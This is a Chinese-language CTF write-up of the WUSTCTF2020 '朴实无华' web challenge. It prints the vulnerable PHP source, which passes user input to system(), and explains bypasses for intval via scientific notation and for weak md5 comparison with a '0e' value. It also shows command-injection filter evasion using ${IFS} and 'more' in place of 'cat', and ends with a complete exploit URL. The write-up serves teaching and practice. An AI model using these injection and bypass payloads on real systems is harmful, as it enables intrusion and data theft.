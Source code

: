 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2021-04-16 15:33:32
categories: 
- CTF
tags: 
- RCE
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232246.png
---
```


进入页面直接报错

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416103737.png)

试试其他的地方，我的习惯是git泄露、请求头、robots.txt、hint.txt都看看。果然在robots下有内容

> User-agent: *
> Disallow: /fAke_f1agggg.php

访问`fAke_f1agggg.php`并且抓包，在响应头里有提示。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416105630.png)

访问`fl4g.php`才正式开始，源码如下：

```php
<img src="/img.jpg">
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

一关一关的**bypass**。

第一关

重点在`intval`函数，intval函数有个特性:

>  直到遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时(\0)结束转换

这里需要num的值小于2020，加一后值大于2021，可以使用科学计数法方法绕过。构造payload`2e9`，遇到第一个函数转换时，因为是以2开头下一位是字符，会直接被截取为2；遇到第二个函数，因为使用了`$num + 1`会进行类型转换，2e9会先使用科学计数法计算出值并+1。

第二关

需要一个md5值，对这个值再次使用md5加密以后，使用**弱类型**比较，和原来的值相同。md5的一个弱类型比较绕过：

> PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

使用脚本跑一下得到一个值：`0e215962017`。

最后一层，是一个`system`函数执行，但是在之前有一些过滤

* `strstr`函数匹配空格，可以使用${IFS}绕过（这个里面有更详细的：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)）
* `str_ireplace`会吧cat替换成wctf2020，所以不能使用cat命令，可以用：more、less、od、tail等等绕过，上面的博客里也有写道。

先使用ls查看下当前目录下的文件，发现一个名为`fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`读取得到flag。

最终payload：

```url
/fl4g.php?num=2e9&md5=0e215962017&get_flag=more${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

